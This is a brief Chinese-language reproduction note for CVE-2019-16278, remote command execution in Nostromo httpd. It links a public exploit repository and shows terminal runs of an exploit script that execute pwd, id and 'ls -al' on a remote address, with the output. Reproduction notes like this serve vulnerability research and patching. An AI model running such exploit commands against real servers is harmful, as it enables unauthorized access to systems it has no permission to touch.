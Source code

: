 # （CVE-2019-16278）命令执行

> 原文：[http://book.iwonder.run/0day/Nostromo httpd/1.html](http://book.iwonder.run/0day/Nostromo httpd/1.html)

## 一、漏洞简介

（CVE-2019-16278）命令执行

## 二、影响范围

## 三、复现过程

[https://github.com/ianxtianxt/CVE-2019-16278/](https://github.com/ianxtianxt/CVE-2019-16278/)

```
➜  Downloads python nostromo.py 114.114.114.114 8080 pwd
/bin
➜  Downloads python nostromo.py 114.114.114.114 8080 id
uid=65534 gid=65534
➜  Downloads python nostromo.py 114.114.114.114 8080 "ls -al"
drwxr-xr-x    2 0        0                0 Apr 12  2013 .
drwxr-xr-x   16 0        0                0 Jan  1  1970 ..
lrwxrwxrwx    1 0        0                7 Apr 12  2013 ash -> busybox 
```

